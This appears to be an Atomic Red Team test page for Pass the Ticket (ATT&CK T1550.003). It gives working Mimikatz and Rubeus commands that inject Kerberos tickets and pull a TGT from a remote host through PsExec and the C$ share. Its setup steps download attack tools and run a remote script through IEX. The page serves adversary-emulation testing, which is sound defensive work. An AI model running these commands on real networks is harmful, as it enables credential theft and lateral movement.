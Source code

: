 ```yaml
---
tags: [T1550_003, atomic_test]
filename: "[[T1550.003|T1550.003 - Use Alternate Authentication Material: Pass the Ticket]]"
---
```

# T1550.003 - Use Alternate Authentication Material: Pass the Ticket

## Atomic Test #1 - Mimikatz Kerberos Ticket Attack
Similar to PTH, but attacking Kerberos

**Supported Platforms:** Windows


**auto_generated_guid:** dbf38128-7ba7-4776-bedf-cc2eed432098





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ticket | Ticket file name usually format of 'id-username&#92;@domain.kirbi' (e.g. can be dumped by "sekurlsa::tickets /export" module) | string | |
| mimikatz_exe | Path of the Mimikatz binary | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;bin&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{mimikatz_exe}" "kerberos::ptt #{ticket}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mimikatz_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path "#{mimikatz_exe}" | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
<br/>

## Atomic Test #2 - Rubeus Kerberos Pass The Ticket
Requesting a TGT on a remote system and retrieving it locally before requesting a service ticket with it. This is a Pass-The-Ticket attack because the TGT is obtained on the remote system, then used from a different machine (local).
PsExec is used to execute commands on the remote system, and the "C$" admin share is used to retrieve the TGT, so the current user must have admin rights remotely and other PsExec prerequisites must be met.

**Supported Platforms:** Windows


**auto_generated_guid:** a2fc4ec5-12c6-4fb4-b661-961f23f359cb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target | Remote system to request the TGT from | string | localhost|
| user_name | username associated with the ticket (privileged account not required) | string | Administrator|
| password | password for user_name | string | Password|
| domain | domain | string | $Env:USERDOMAIN|
| rubeus_url | URL of Rubeus executable | url | https://github.com/morgansec/Rubeus/raw/de21c6607e9a07182a2d2eea20bb67a22d3fbf95/Rubeus/bin/Debug/Rubeus45.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
& "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" -accepteula \\#{target} -w c:\ -c "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe" asktgt /user:#{user_name} /password:#{password} /domain:#{domain} /outfile:ticket.kirbi
Set-Location "PathToAtomicsFolder\..\ExternalPayloads"
Move-Item -Force "\\#{target}\c$\ticket.kirbi" ticket.kirbi
Write-Host "Successfully retrieved TGT from '#{target}', now requesting a TGS from local"
& "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe" asktgs /service:cifs/#{target} /ticket:ticket.kirbi /ptt
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\ticket.kirbi"
& "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe" purge
```




#### Dependencies:  Run with `powershell`!
##### Description: Rubeus must exist on disk at "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe"
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-Webrequest -Uri #{rubeus_url} -OutFile "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe"
```
##### Description: PsExec must exist on disk at "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe"
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip" "PathToAtomicsFolder\..\ExternalPayloads\PsTools" -Force
New-Item -ItemType Directory (Split-Path "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\PsTools\PsExec.exe" "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" -Force
```




<br/>
